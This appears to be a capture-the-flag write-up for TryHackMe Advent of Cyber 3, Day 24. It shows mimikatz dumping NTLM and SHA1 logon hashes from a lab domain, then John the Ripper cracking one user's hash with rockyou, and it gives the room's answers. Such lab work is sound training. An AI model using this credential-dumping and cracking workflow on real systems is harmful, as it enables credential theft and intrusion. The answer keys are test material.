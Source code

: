 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 24

```powershell
PS C:\Users\Administrator> .\Desktop\mimikatz\x64\
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 291196 (00000000:0004717c)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : THM
Logon Server      : THM
Logon Time        : 12/25/2021 2:31:33 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : THM
         * NTLM     : 001a5b3e266374c0df96a298f7f7419f
         * SHA1     : 6a6be7a1f14813295de2335bb8d1deadcfb57704
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : THM
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : THM
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 464828 (00000000:000717bc)
Session           : Interactive from 0
User Name         : emily
Domain            : THM
Logon Server      : THM
Logon Time        : 12/25/2021 2:31:54 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-1009
        msv :
         [00000003] Primary
         * Username : emily
         * Domain   : THM
         * NTLM     : 8af326aa4850225b75c592d4ce19ccf5
         * SHA1     : 8c4c6c4e493ec2beef5f6f6a9c4472c13bed42e8
        tspkg :
        wdigest :
         * Username : emily
         * Domain   : THM
         * Password : (null)
        kerberos :
         * Username : emily
         * Domain   : THM
         * Password : (null)
        ssp :
        credman :

mimikatz #
```

## What is the username of the other user on the system?
**Answer**: `emily`
## What is the NTLM hash of this user?
**Answer**: `8af326aa4850225b75c592d4ce19ccf5`
## What is the password for this user?
```bash
$ john --format=NT -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash.txt --pot=output.txt && cat output.txt
$NT$8af326aa4850225b75c592d4ce19ccf5:1234567890
```

**Answer**: `1234567890`